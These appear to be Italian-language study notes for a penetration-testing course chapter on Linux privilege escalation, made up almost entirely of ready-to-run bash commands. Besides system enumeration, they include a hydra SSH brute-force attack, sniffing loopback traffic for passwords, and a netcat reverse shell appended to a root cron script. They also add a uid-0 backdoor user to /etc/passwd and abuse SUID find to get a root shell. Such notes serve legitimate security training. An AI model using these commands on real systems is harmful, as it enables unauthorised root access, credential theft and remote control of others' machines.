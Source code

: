 
# 17.1. Enumerating Linux

## 17.1.1. Understanding Files and Users Privileges on Linux

```bash
ls -l /etc/shadow
```

## 17.1.2. Manual Enumeration

```bash
id

cat /etc/passwd

hostname

cat /etc/issue

cat /etc/os-release

uname -a

ps aux

ip a

routel

ss -anp

cat /etc/iptables/rules.v4

ls -lah /etc/cron*

crontab -l

sudo crontab -l

dpkg -l

find / -writable -type d 2>/dev/null

cat /etc/fstab

mount

lsblk

lsmod

/sbin/modinfo nome_di_uno_specifico_modulo

find / -perm -u=s -type f 2>/dev/null
```

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation

## 17.1.3. Automated Enumeration

```bash
sudo apt install unix-privesc-check

unix-privesc-check standard > output.txt
```

- https://github.com/rebootuser/LinEnum
- https://github.com/peass-ng/PEASS-ng
# 17.2. Exposed Confidential Information

## 17.2.1. Inspecting User Trails

```bash
env

cat .bashrc

su - root

sudo -l

sudo -i (SE HA TUTTI I PERMESSI CON SUDO)
```

Data la password _lab_ trovata per uno specifico user, si potrebbe generare una wordlist da utilizzare per altri utenti:

```bash
crunch 6 6 -t Lab%%% > wordlist

hydra -l nome_utente -P wordlist  $IP -t 4 ssh -V
```

## 17.2.2. Inspecting Service Footprints

```bash
watch -n 1 "ps -aux | grep pass"

sudo tcpdump -i lo -A | grep "pass"
```

## 17.3. Insecure File Permissions

```bash
grep "CRON" /var/log/syslog

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP 1234 >/tmp/f" >> file_con_permessi_elevati.sh

nc -lnvp 1234
```

## 17.3.2. Abusing Password Authentication

Qualora avessimo i permessi di modificare il file /etc/passwd potremmo aggiungere un nuovo utente:

```bash
openssl passwd w00t

echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

su root2
```

- https://en.wikipedia.org/wiki/Crypt_(C)

# 17.4. Insecure System Components

## 17.4.1. Abusing Setuid Binaries and Capabilities

In questi comandi si fa una panoramica sul processo passwd utilizzato per cambiare password:

```bash
passwd

ps u -C passwd

grep Uid /proc/1932/status (1932 E IL PID DEL PROCESSO)

cat /proc/1131/status | grep Uid (1131 E IL PID DEL PROCESSO BASH UTENTE)

ls -asl /usr/bin/passwd
```

Nel caso mostrato l'utility _find_ ha il flag SUID, quindi viene utilizzata per scalare i privilegi:

```bash
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

Nel caso successivo si cercano delle _capabilities_ da sfruttare:

```bash
/usr/sbin/getcap -r / 2>/dev/null
```

- https://gtfobins.github.io/